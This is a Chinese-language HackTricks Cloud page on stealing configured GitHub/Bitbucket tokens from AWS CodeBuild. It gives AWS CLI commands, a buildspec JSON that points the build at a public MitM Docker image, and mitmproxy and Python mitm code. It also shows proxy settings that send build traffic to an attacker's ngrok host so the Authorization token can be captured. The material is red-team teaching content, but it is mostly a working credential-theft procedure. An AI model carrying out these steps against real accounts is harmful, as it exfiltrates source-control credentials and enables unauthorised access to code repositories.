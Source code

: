 # AWS Codebuild - 令牌泄露

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在**HackTricks中看到您的公司广告**或**以PDF格式下载HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 恢复Github/Bitbucket配置的令牌

首先，检查是否有任何您可以泄露的已配置的源凭证：
```bash
aws codebuild list-source-credentials
```
### 通过 Docker 镜像

如果您发现例如 Github 的认证设置在账户中，您可以通过让 Codebuild **使用特定的 docker 镜像** 来运行项目的构建，来**泄露**该**访问**（**GH 令牌或 OAuth 令牌**）。

为此，您可以**创建一个新的 Codebuild 项目**或更改现有项目的**环境**来设置**Docker 镜像**。

您可以使用的 Docker 镜像是 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)。这是一个非常基础的 Docker 镜像，它将设置**环境变量 `https_proxy`**、**`http_proxy`** 和 **`SSL_CERT_FILE`**。这将允许您拦截在 **`https_proxy`** 和 **`http_proxy`** 中指示的主机的大部分流量，并信任在 **`SSL_CERT_FILE`** 中指示的 SSL 证书。

1. **创建并上传您自己的 Docker MitM 镜像**
* 按照仓库的说明设置您的代理 IP 地址和 SSL 证书，并**构建 docker 镜像**。
* **不要设置 `http_proxy`**，以免拦截对元数据端点的请求。
* 您可以使用 **`ngrok`**，像 `ngrok tcp 4444` 这样设置代理到您的主机
* 一旦您构建了 Docker 镜像，**上传它到一个公共仓库**（Dockerhub, ECR...）
2.  **设置环境**

* 创建一个**新的 Codebuild 项目**或**修改**现有项目的环境。
* 设置项目使用**之前生成的 Docker 镜像**
*

```
<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
```
3. **在您的主机中设置 MitM 代理**
* 如**Github 仓库**中所示，您可以使用类似的方法：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
4. **运行构建 & 捕获凭证**

*   你可以在 **Authorization** 头中看到令牌：

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

这也可以通过 aws cli 来完成，类似于

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~通过 HTTP 协议~~

{% hint style="success" %}
**这个漏洞在 2023 年 2 月 20 日那周的某个时候被 AWS 修复了（我认为是在周五）。所以攻击者现在不能再滥用它了 :)**
{% endhint %}

拥有 **在 CodeBuild 上的提升权限的攻击者可以泄露配置的 Github/Bitbucket 令牌**，或者如果权限是通过 OAuth 配置的，那么可以泄露用于访问代码的**临时 OAuth 令牌**。

* 攻击者可以添加环境变量 **http\_proxy** 和 **https\_proxy** 到 CodeBuild 项目中，指向他的机器（例如 `http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 然后，将 github 仓库的 URL 从 HTTPS 改为使用 HTTP，例如：\*\*http://\*\*github.com/carlospolop-forks/TestActions
* 接着，在代理变量（http\_proxy 和 https\_proxy）指向的端口上运行 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) 中的基本示例
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最后，点击 **Build the project**，**credentials** 将以明文（base64）形式发送到 mitm 端口：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
现在，攻击者将能够从他的机器上使用 token，列出它拥有的所有权限，并且比直接使用 CodeBuild 服务更容易（滥）用。
{% endhint %}

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零到英雄学习 AWS hacking！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 **HackTricks** 中看到您的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs**](https://opensea.io/collection/the-peass-family) 收藏
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的 hacking 技巧。

</details>
